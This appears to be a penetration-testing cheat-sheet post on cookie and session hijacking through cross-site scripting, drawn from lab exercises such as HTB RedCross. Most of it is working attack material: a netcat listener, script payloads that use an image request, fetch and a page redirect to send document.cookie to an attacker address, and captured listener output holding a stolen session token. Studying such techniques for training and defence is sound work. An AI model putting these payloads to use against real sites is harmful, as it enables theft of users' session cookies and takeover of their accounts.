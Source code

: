 ```yaml
---
layout: post
title: Cookie/Session Hijacking
description: Cookie/Session Hijacking
summary: Cookie/Session Hijacking
tags: [web,xss]
minute: 1
---
```

## Intercepting via netcat
* Open netcat listener on attacker machine

```bash
nc -nlvp 4444
```

* Submit this XSS script on the form

```
<script>new Image().src="http://10.11.40.33:4444/bogus.php?output="+document.cookie;</script>
```

![](/spindel/assets/Cookie%20(Session)%20Hijacking/BC7E0478-D577-462B-BCF7-A9A0D0590D87.png)

* You will be able to intercept the cookie

```bash
➜  marketplace nc -nlvp 4444        
listening on [any] 4444 ...
connect to [10.11.40.33] from (UNKNOWN) [10.11.40.33] 57706
GET /bogus.php?output=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjQsInVzZXJuYW1lIjoiZGVtbyIsImFkbWluIjpmYWxzZSwiaWF0IjoxNjI4MTU5MzYzfQ.Nka6_SPBNEE1B3PmDWg4p7c3cG3BF4zqhTMCgGa6bJM HTTP/1.1
Host: 10.11.40.33:4444
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://10.10.177.20/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

* You can use this method to grab an admin cookie
* An alternative is using `fetch` and redirecting it to your HTTP listener

```bash
# using fetch
<script>fetch("http://10.11.40.33:4444/"+document.cookie)</script>
```

* NOTE: There mght be delay in seeing the output so you might want to be patient

## Redirect to another page
* Insert this payload to comment section

```bash
# 10.10.39.208 - victim ip
<script>document.location='http://10.10.39.208/log/'+document.cookie</script>
```

* Refresh the page
* Go to `/logs`

![](/spindel/assets/Cookie%20(Session)%20Hijacking/79797591-B0CB-47DA-A97A-26504675CB4D.png)

## Other payloads
```bash
# sent by server -> cookie: denied
cookie: granted
```

## References
* HTB RedCross
* [Cookies Hacking - HackTricks](https://book.hacktricks.xyz/pentesting-web/hacking-with-cookies)
